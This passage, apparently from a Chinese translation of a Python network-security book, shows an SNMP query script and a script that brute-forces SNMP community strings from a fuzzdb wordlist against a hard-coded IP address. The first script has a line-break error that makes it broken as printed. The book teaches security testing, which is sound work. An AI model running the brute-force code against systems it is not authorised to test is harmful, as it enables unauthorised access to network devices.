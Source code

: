 如果我们尝试执行先前的脚本，我们会看到已注册的 SNMP 代理的公共数据：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-py-net-sec/img/1c0ec4d8-545b-4dc6-aef6-d0b856801159.png)

你可以在文件名为`snmp_example3.py`中找到以下代码：

```py
from pysnmp.entity.rfc3413.oneliner import cmdgen

SNMP_HOST = '182.16.190.78'
SNMP_PORT = 161
SNMP_COMMUNITY = 'public'

snmpCmdGen = cmdgen.CommandGenerator()
snmpTransportData = cmdgen.UdpTransportTarget((SNMP_HOST ,SNMP_PORT ))

error,errorStatus,errorIndex,binds = snmpCmdGen
getCmd(cmdgen.CommunityData(SNMP_COMMUNITY),snmpTransportData,"1.3.6.1.2.1.1.1.0","1.3.6.1.2.1.1.3.0","1.3.6.1.2.1.2.1.0")

if error:
    print("Error"+error)
else:
    if errorStatus:
        print('%s at %s' %(errorStatus.prettyPrint(),errorIndex and  binds[int(errorIndex)-1] or '?'))
    else:
        for name,val in binds:
            print('%s = %s' % (name.prettyPrint(),val.prettyPrint()))
```

如果我们尝试执行先前的脚本，我们会看到已注册的 SNMP 代理的公共数据：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-py-net-sec/img/bcc8af0d-d614-4382-9daa-89e59139e964.png)

在这个例子中，我们尝试为特定的 SNMP 服务器查找 community。为此任务，我们首先从 fuzzdb 获取包含可用 community 列表的文件`wordlist-common-snmp-community-strings.txt`：

[`github.com/fuzzdb-project/fuzzdb/blob/master/wordlists-misc/wordlist-common-snmp-community-strings.txt`](https://github.com/fuzzdb-project/fuzzdb/blob/master/wordlists-misc/wordlist-common-snmp-community-strings.txt)

你可以在文件名为`snmp_brute_force.py`中找到以下代码：

```py
from pysnmp.entity.rfc3413.oneliner import cmdgen

SNMP_HOST = '182.16.190.78'
SNMP_PORT = 161

cmdGen = cmdgen.CommandGenerator()
fd = open("wordlist-common-snmp-community-strings.txt")
for community in fd.readlines():
    snmpCmdGen = cmdgen.CommandGenerator()
    snmpTransportData = cmdgen.UdpTransportTarget((SNMP_HOST, SNMP_PORT),timeout=1.5,retries=0)

    error, errorStatus, errorIndex, binds = snmpCmdGen.getCmd(cmdgen.CommunityData(community), snmpTransportData, "1.3.6.1.2.1.1.1.0", "1.3.6.1.2.1.1.3.0", "1.3.6.1.2.1.2.1.0")
    # Check for errors and print out results
    if error:
        print(str(error)+" For community: %s " %(community))
    else:
        print("Community Found '%s' ... exiting." %(community))
        break
```
